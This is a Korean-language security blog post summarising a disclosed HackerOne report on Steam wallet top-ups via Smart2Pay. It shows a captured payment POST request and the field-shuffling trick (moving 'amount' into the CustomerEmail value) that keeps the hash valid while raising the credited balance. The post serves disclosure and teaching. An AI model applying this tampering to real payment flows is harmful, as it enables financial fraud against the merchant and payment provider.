 ```yaml
---
title: "[하루한줄] Smart2Pay in-flight 데이터 수정으로 Steam 잔액 충전"
author: Fabu1ous
tags: [Fabu1ous, post, parmeter modify, steam]
categories: [1day1line]
date: 2021-08-16 14:00:00
cc: true
index_img: /img/1day1line.png


---
```




## URL

[Modify in-flight data to payment provider Smart2Pay](https://hackerone.com/reports/1295844)



## **Target**

Smart2Pay

Steam

Valve



## **Explain**

게임 유통 플랫폼 Steam의 Smart2Pay를 이용한 결제 방식에서 취약점이 발견되었습니다. Smart2Pay를 통해 Steam 잔액 충전 시 `https://globalapi.smart2pay.com/`로 보내지는 POST 리퀘스트를 조작해 실제 지불 금액보다 더 많은 잔액을 충전할 수 있습니다.

```
POST / HTTP/1.1
Host: globalapi.smart2pay.com
Content-Length: 388
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://store.steampowered.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://store.steampowered.com/
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

MerchantID=1102&MerchantTransactionID=███&Amount=2000&Currency=PLN&ReturnURL=https%3A%2F%2Fstore.steampowered.com%2Fpaypal%2Fsmart2pay%2F████%2F&MethodID=12&Country=PL&CustomerEmail=brixamount100abc%40███████&CustomerName=_drbrix_&SkipHPP=1&Description=Steam+Purchase&SkinID=101&Hash=███
```

POST 리퀘스트의 Hash값은 '='를 제외한 모든 필드의 이름과 값을 하나의 문자열로 합쳐서 생성합니다. 이를 악용해  `amount`와  `CustomerEmail` 필드를 다음과 같이 조작하면 Hash값은 그대로 둔 채로 파라미터를 조작할 수 있습니다.

*  `amount=2000`를 `amount2=000`으로 조작
* `CustomerEmail`필드와 그 값을 `CustomerEmail=aaa&amount=100&ab=c%40bbb`으로 조작

충전될 잔액을 뜻하는 `amount`필드를 원하는 값으로 조작할 수 있기 때문에 실제 지불 금액과 충전되는 잔액의 차이를 발생시킬 수 있습니다. 

